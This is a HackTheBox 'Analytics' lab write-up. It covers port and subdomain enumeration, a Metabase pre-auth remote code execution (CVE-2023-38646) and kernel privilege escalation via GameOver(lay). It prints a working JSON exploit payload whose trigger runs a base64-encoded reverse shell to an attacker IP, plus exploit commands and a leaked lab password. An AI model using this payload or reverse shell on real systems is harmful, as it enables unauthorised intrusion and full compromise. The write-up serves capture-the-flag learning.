# HTB - Analytics

### TL;DR
This is an Ubuntu 22.04 host running an http server on port 80. The vulnerable web application running is metabase, and using the appropriate exploit rce can be gained. For escalation, a kernel vulnerability can be abused.

__Keywords:__<br>
metabase, GameOver(lay)<br>

__References:__<br>
https://www.cvedetails.com/cve/CVE-2023-38646<br>
https://www.cvedetails.com/cve/CVE-2023-2640<br>
https://www.cvedetails.com/cve/CVE-2023-32629<br>
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/<br>
https://github.com/securezeron/CVE-2023-38646<br>
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629<br>
<br>
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target --top-ports 1000 -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 15:15 EDT
Nmap scan report for analytical.htb (10.129.136.15)
Host is up, received user-set (0.35s latency).
Not shown: 569 filtered tcp ports (no-response), 429 closed tcp ports (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```
Discover hidden subdomains with `ffuf`
```markdown
> ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fs 154  -t 100 -u http://analytical.htb -H "Host: FUZZ.analytical.htb" 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://analytical.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.analytical.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 154
________________________________________________

data                    [Status: 200, Size: 77883, Words: 3574, Lines: 28]
```
Browsing the hidden subdomain at http://data.analitycal.htb we find a login portal for a metabase service. Searching for metabase vulnerabilities we find out there is a vulnerability (https://www.cvedetails.com/cve/CVE-2023-38646) in the `/api/setup/validate` endpoint, which can lead to rce.
<br>
<br>
### PHASE 2. User
Search for a poc in github for this cve (https://github.com/securezeron/CVE-2023-38646). Analyzing the poc, we see first step is to obtain setup token, for this, just query the `/api/session/properties` endpoint and find `setup-token` field. Then, to obtain rce, we query the `api/setup/validate` endpoint with the setup token and the appropriate payload.

We can do this ourselves with burpsuite.

![analytics1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9512d67d-0565-48bb-8e77-cca05f62f8b9)

So the setup token is `"setup-token" : "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`. For the payload, just use a base64 `sh -i` shell and query the endpoint building a post request with burpsuite.
```markdown
POST /api/setup/validate HTTP/1.1 Host: data.analytical.htb Content-Type: application/json Content-Length: 818 

{       "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details":
        {
                "is_on_demand": false,
                "is_full_sync": false,
                "is_sample": false,
                "cache_ttl": null,
                "refingerprint": false,
                "auto_run_queries": true,
                "schedules":
                {},
                "details":
                {
                        "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjEvMTkxOSAwPiYxCg==}|{base64,-d}|{bash,-i}')\n$$--=x",
                        "advanced-options": false,
                        "ssl": true
                },
        "name": "an-sec-research-team",
        "engine": "h2"
        }
}
```

![analytics2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/440a1690-57fa-4ec2-9ab5-2568bcfec630)

If this does not work, just use the poc hardocding the shell in base64 within the poc source code.
```markdown
> python3 exploit.py --rhost data.analytical.htb --lhost <listener ip> --lport 9001
```
After issuing the exploit, a sh shell is received on port 9001.
Continue enumerating the system.
```markdown
> uname -a && cat /etc/os-release
Linux befd7ac0fb41 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 Linux
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.18.2
PRETTY_NAME="Alpine Linux v3.18"

> whoami && id
metabase
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```
We are in some kind of limited Ubuntu system, maybe a container. Looking around we find a script `/app/run_metabase.sh` to start the database where some env variables are manipulated, so let's enumerate environmental variables.
```markdown
> env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=befd7ac0fb41
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/opt
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=run_metabase.sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/app
MB_DB_FILE=//metabase.db/metabase.db
```
Clear text credentials are found here. So we can just login using them.
```markdown
> ssh metalytics@$target            
metalytics@10.129.136.15's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

Last login: Sat Oct  7 23:19:29 2023 from 10.10.14.80
metalytics@analytics:~$
```
<br>
<br>
### PHASE 3. System<br>
Now we have a full shell out of the container. Enumerate system again.
```markdown
> uname -a && cat /proc/version
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
Linux version 6.2.0-25-generic (buildd@lcy02-amd64-044) (x86_64-linux-gnu-gcc-11 (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2
```
Notice the system is Ubuntu 22.04 and kernel is 6.2.0. This release is vulnerable to GameOver(lay) Ubuntu Privilege Escalation (CVE-2023-2640 and CVE-2023-32629).
To escalate privileges, just download and execute exploit available in github (https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).
After running the exploit, a root shell spawns.
```markdown
> -/exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned

> whoami
root
```
A root shell spawns.

